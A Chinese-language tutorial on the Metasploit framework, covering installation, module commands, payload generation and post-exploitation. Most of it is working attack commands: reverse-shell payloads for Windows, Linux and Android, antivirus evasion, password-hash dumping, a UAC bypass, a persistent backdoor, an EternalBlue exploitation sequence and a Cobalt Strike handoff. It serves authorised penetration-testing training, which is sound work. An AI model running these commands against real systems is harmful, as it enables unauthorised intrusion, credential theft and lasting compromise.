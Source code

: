
#### **第一章：MSF简介与安装**
1. **Metasploit框架概述**  
   - **历史背景**：2003年由H.D. Moore发布，2010年成为Rapid7旗下开源项目，支持漏洞利用、渗透测试和后渗透攻击一体化。
   - **核心功能**：包含6大模块——Exploit（漏洞利用）、Payload（攻击载荷）、Auxiliary（辅助模块）、Encoder（编码器）、Post（后渗透）、NOP（空指令）。

2. **安装与配置**  
   - **一键安装**（Linux/macOS）：  
     ```bash
     curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
     ```
   - **数据库配置**：  
     ```bash
     service postgresql start && msfdb init  # 初始化数据库
     ```
   - **更新命令**：`sudo msfupdate`。

---

#### **第二章：MSF基础命令与模块**
1. **常用指令**  
   - **模块管理**：  
     ```bash
     search type:exploit windows smb  # 按类型筛选模块
     use exploit/windows/smb/ms17_010_eternalblue  # 加载模块
     show options  # 查看参数
     ```
   - **会话管理**：  
     ```bash
     sessions -l  # 列出所有会话
     sessions -i 1  # 切换到会话1
     ```

2. **监听模块（Exploit/Multi/Handler）**  
   - **防检测策略**：使用编码器规避杀软（如`x86/shikata_ga_nai`）。
   - **持续监听配置**：  
     ```bash
     set ExitOnSession false  # 保持后台监听
     ```

---

#### **第三章：Payload生成与无文件攻击**
1. **msfvenom跨平台Payload生成**  
   - **Windows**：  
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > shell.exe
     ```
   - **Linux**：  
     ```bash
     msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 -f elf > backdoor.elf
     ```
   - **Android**：  
     ```bash
     msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.5 -o virus.apk
     ```

2. **无文件攻击技术**  
   - **Powershell内存加载**：  
     ```bash
     msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.5 -f psh-reflection
     ```
   - **Web交付攻击**：  
     ```bash
     use exploit/multi/script/web_delivery
     set target Python  # 生成Python反向Shell代码
     ```

---

#### **第四章：后渗透攻击实战**
1. **信息收集与提权**  
   - **获取系统信息**：  
     ```bash
     sysinfo  # 系统基本信息
     run post/windows/gather/hashdump  # 提取密码哈希
     ```
   - **绕过UAC提权**：  
     ```bash
     use exploit/windows/local/bypassuac_eventvwr
     set SESSION 1  # 绑定当前会话
     ```

2. **横向移动与持久化**  
   - **进程迁移**：  
     ```bash
     migrate <PID>  # 迁移到稳定进程（如explorer.exe）
     ```
   - **持久后门**：  
     ```bash
     run persistence -X -i 60 -p 443 -r 192.168.1.5  # 每60秒重连
     ```

---

#### **第五章：经典漏洞利用案例**
1. **永恒之蓝（MS17-010）漏洞利用**  
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.100  # 目标IP
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   exploit  # 执行攻击
   ```

2. **RDP漏洞（CVE-2019-0708）检测**  
   ```bash
   use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
   ```

---

#### **第六章：MSF模块开发与扩展**
1. **自定义EXP模块开发**  
   - **模块结构示例**（Ruby）：  
     ```ruby
     class MetasploitModule < Msf::Exploit::Remote
       def exploit
         connect
         sock.put(payload.encoded)  # 发送恶意载荷
         handler
       end
     end
     ```
   - **模块加载**：将.rb文件放入`/usr/share/metasploit-framework/modules/exploits/custom`。

2. **与Cobalt Strike联动**  
   - **MSF会话转CS**：  
     ```bash
     use exploit/windows/local/payload_inject
     set PAYLOAD windows/meterpreter/reverse_http
     set LHOST [CS_IP] && set LPORT [CS_PORT]
     ```

---

#### **附录：漏洞情报与资源**
1. **CVE监控方法**  
   - 订阅GitHub仓库`rapid7/metasploit-framework`获取最新漏洞模块。
   - 使用`search cve:2023-XXXX`快速定位新漏洞利用代码。

---

### **参考资料**
-  MSF安装与数据库配置
-  模块目录结构与辅助扫描
-  Payload生成与漏洞利用
-  后渗透提权与横向移动
-  Meterpreter高级操作
-  木马生成与监听实战
-  持久化与进程迁移
-  模块开发与CVE监控

本教程整合多篇权威指南，覆盖从基础到高级的完整渗透测试链路。实际使用时需遵守法律法规，建议在授权环境下验证技术细节。